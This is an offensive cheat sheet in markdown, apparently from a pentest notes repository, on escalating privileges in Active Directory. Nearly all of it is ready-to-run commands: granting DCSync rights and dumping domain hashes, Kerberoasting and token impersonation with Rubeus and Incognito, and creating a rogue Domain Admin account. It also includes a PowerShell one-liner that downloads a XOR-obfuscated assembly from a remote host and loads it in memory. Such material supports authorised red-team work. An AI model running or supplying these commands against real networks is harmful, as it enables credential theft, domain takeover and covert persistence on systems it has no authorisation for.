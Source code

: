 # Domain escalation

## Tools

- [Bloodhound](https://github.com/BloodHoundAD/BloodHound) with [Sharphound injestor](https://github.com/BloodHoundAD/SharpHound3) or [bloodhound-python injestor](https://github.com/fox-it/BloodHound.py)
- [https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit) (PowerView)
- [RSAT](https://download.microsoft.com/download/1/D/8/1D8B5022-5477-4B9A-8104-6A71FF9D98AB/WindowsTH-RSAT_WS_1709-x64.msu)
> After installing RSAT, you can go to "Users and Computers AD =&gt; View =&gt; Advanced"

---

## ACLs
Get ACL

```bash
Get-DomainObjectAcl -Identity <username> -ResolveGUIDs ? { $_.SecurityIdentifier -Match $(ConvertTo-SID <domain>) }
```

add DCSync

```bash
Add-DomainObjectAcl -TargetIdentity "DC=<domain>,DC=<local>" -PrincipalIdentity <username> -Rights DCSync
```

dump ntds 

```bash
meterpreter > dcsync_ntlm <DOMAIN>\<user>
```

---

## Impersonation Token 

### Tools
- [Rubeus.exe](https://github.com/GhostPack/Rubeus) (DOTNET CSHARP)
- [Tokenvator](https://github.com/0xbadjuju/Tokenvator) (DOTNET CSHARP)
- [Incognito.exe](https://github.com/FSecureLABS/incognito) (Meterpreter extension)
- [TokenManipulation.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/c7985c9bc31e92bb6243c177d7d1d7e68b6f1816/Exfiltration/Invoke-TokenManipulation.ps1)
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)

Reflectively load DOTNET CSHARP Assembly within Powershell (or Cobalt, SilentTrinity etc.) if you cant do it through your C2 Infra :

```powershell
$wc=New-Object System.Net.WebClient;$wc.Headers.Add("User-Agent","Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0");$wc.Proxy=[System.Net.WebRequest]::DefaultWebProxy;$wc.Proxy.Credentials=[System.Net.CredentialCache]::DefaultNetworkCredentials
$k="xxxxxxx";$i=0;[byte[]]$b=([byte[]]($wc.DownloadData("https://xxxxx")))|%{$_-bxor$k[$i++%$k.length]}
[System.Reflection.Assembly]::Load($b) | Out-Null
$parameters=@("arg1", "arg2")
[namespace.Class]::Main($parameters)
```

---

### Kerberos impersonate

Find domain admin accounts 

```bat
net group "Domain Admins" /DOMAIN
net group "Admins du domaine" /DOMAIN
```

Find if one is loggedon somewhere :

```bash
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> --loggedon-users
bloodhound.py -d <domain> -u <user> -p <password> -ns <IP-DC> -c LoggedOn
```

Impersonate kerberos token

```bat
# Rubeus
Rubeus.exe klist
Rubeus.exe dump
Rubeus.exe kerberoast /outfile:roasted_hashes.txt
Rubeus.exe asreproast /outfile:asrep_hashes.txt
Rubeus.exe s4u </ticket:BASE64 | /ticket:FILE.KIRBI> </impersonateuser:USER | /tgs:BASE64 | /tgs:FILE.KIRBI>

#TokenManipulation
Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"
Get-Process wininit | Invoke-TokenManipulation -CreateProcess "cmd.exe"


# Incognito loaded by Meterpreter
load incognito 
list_tokens -u
impersonate_token <domain>\\<user> # Double slash is mandatory !

# Incognito standalone executable
Incognito.exe

# CrackMapExec using kerberos ticket
export KRB5CCNAME=<user>.ccache 
sudo cme smb <target> --kerberos -x whoami
```

Create new Domain Admin account 

```bat
net user add <user> <pass> /domain
net group "Domain Admins" <user> /add
```

Check if a computer has the TrustedForDelegation flag enabled

```powershell
Get-ADComputer -Identity <computer_name> -Properties TrustedForDelegation
```

---

### Manual testing

- [secureauth.com](https://www.secureauth.com/blog/kerberos-delegation-spns-and-more/)

### Delegation Explained

- [specterops.io](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)